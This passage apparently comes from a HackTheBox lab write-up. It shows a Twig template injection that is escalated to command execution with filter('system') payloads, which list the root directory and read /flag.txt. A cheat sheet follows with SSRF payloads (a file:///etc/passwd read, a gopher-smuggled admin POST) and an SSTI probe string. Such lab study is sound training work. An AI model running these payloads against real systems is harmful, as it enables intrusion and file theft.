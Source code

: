 ![](Pasted%20image%2020250303192200.png)

Then I tested `${{7*7}}` which gave me `49`, so the website is using Twig:

![](Pasted%20image%2020250303192244.png)

From here, I'l try to get RCE with:

```twig
{{['ls${IFS}/']|filter('system')}}
```

- *NOTE*: I used `${IFS}` because it gave me an error because of the space

![](Pasted%20image%2020250303192453.png)

So now I can read root flag with:

```twig
{{['cat${IFS}/flag.txt']|filter('system')}}
```

![](Pasted%20image%2020250303192646.png)

# HTB Cheatsheet

The cheat sheet is a useful command reference for this module.

## SSRF

| **Exploitation** |                                                                                                                                                                                                      |
| ---------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|                  | internal portscan by accessing ports on localhost                                                                                                                                                    |
|                  | accessing restricted endpoints                                                                                                                                                                       |
| **Protocols**    |                                                                                                                                                                                                      |
|                  | `http://127.0.0.1/`                                                                                                                                                                                  |
|                  | `file:///etc/passwd`                                                                                                                                                                                 |
|                  | `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` |

## SSTI

|**Exploitation**|
|---|---|
||Templating Engines are used to dynamically generate content|
|**Test String**||
||`${{<%[%'"}}%\.`|
